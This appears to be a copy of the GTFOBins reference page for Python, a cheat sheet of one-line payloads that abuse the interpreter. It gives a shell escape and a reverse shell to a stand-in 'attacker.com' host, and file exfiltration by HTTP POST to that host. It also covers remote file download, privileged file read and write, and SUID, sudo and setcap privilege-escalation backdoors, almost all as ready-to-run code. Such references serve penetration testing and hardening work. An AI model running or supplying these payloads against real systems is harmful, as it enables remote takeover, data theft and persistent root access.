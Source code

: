 # Python

[https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

The payloads are compatible with both Python version 2 and 3.

## **Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- `python -c 'import os; os.system("/bin/sh")'`

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.
    
    ```
    export RHOST=attacker.com
    export RPORT=12345
    python -c 'import sys,socket,os,pty;s=socket.socket()
    s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")'
    ```
    

## **File upload**

It can exfiltrate files on the network.

- Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
    
    ```
    export URL=http://attacker.com/
    export LFILE=file_to_send
    python -c 'import sys; from os import environ as e
    if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
    else: import urllib as u, urllib2 as r
    r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    ```
    
- Serve files in the local folder running an HTTP server.
    
    ```
    export LPORT=8888
    python -c 'import sys; from os import environ as e
    if sys.version_info.major == 3: import http.server as s, socketserver as ss
    else: import SimpleHTTPServer as s, SocketServer as ss
    ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
    ```
    

## **File download**

It can download remote files.

- Fetch a remote file via HTTP GET request.
    
    ```
    export URL=http://attacker.com/file_to_get
    export LFILE=file_to_save
    python -c 'import sys; from os import environ as e
    if sys.version_info.major == 3: import urllib.request as r
    else: import urllib as r
    r.urlretrieve(e["URL"], e["LFILE"])'
    ```
    

## **File write**

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```bash
python -c 'open("file_to_write","w+").write("DATA")'
```

## **File read**

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```bash
python -c 'print(open("file_to_read").read())'
```

## **Library load**

It loads shared libraries that may be used to run code in the binary execution context.

```bash
python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
```

## **SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which python) .
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo python -c 'import os; os.system("/bin/sh")'
```

## **Capabilities**

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```bash
cp $(which python) .
sudo setcap cap_setuid+ep python
./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
